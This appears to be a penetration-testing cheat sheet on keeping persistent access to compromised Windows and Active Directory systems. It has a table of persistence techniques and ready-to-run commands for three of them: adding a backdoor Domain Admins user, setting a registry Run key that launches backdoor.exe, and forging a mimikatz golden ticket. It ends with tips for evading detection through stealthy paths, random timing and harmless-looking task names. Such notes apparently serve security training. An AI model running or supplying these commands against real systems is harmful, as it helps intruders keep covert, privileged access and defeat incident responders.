

_Goal: Maintain access to a compromised system across reboots, logoffs, or detection attempts._

---

### **Objectives**

- Maintain access after reboot or user logout
    
- Blend into the environment using native tools or low-noise methods
    
- Avoid detection by security products or incident responders
    

---



  

---

### **Techniques and Tools**

|**Technique**|**Tool/Command**|**Notes**|
|---|---|---|
|Add Local Admin User|net user <user> <pass> /addnet localgroup administrators <user> /add|Adds hidden admin account|
|Add Domain User|Add-DomainUser, Add-DomainGroupMember|Requires domain-level privileges|
|Scheduled Task Backdoor|schtasks /create, Register-ScheduledTask|Executes payload at intervals or login|
|WMI Event Subscription|PowerShell, Eventvwr, WMIExplorer|Triggers persistent payload on system events|
|Registry Run Key|reg add|Executes payload on login (HKCU\...\Run)|
|GPO Abuse|Modify existing GPO to run code or add users|Requires write access to GPO|
|ACL / DACL Abuse|Get-DomainObjectACL, Set-Acl|Add permissions to re-elevate later|
|Service Modification|Change binary path of existing service to malicious script|Common, especially for restartable services|
|Remote Scheduled Task or RDP|schtasks /s <target>, Enable-PSRemoting, RDP w/ creds|Maintain access through legitimate tools|
|Kerberos Ticket Injection|Rubeus, mimikatz kerberos::ptt|Golden/Silver tickets for long-term domain access|

  

---

### **Example: Creating a Domain Backdoor User**

```
net user pentest Temp123! /add
net group "Domain Admins" pentest /add /domain
```

  

---

### **Example: Add Persistence with Registry**

```
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Updater /t REG_SZ /d "C:\Users\Public\backdoor.exe"
```

  

---

### **Example: Golden Ticket with Mimikatz**

```
kerberos::golden /user:hacker /domain:INLANEFREIGHT.LOCAL /sid:<domain_sid> /krbtgt:<ntlm_hash> /ptt
```

  

---

### **Pro Tips**

- Use **legit system paths** for payloads (e.g., C:\ProgramData)
    
- Set **delayed or random execution** for tasks to reduce detection
    
- For high stealth: WMI, GPO abuse, or scheduled tasks with harmless names
    
- Persist via **misconfigured ACLs** and **backup RDP accounts** for re-entry
    
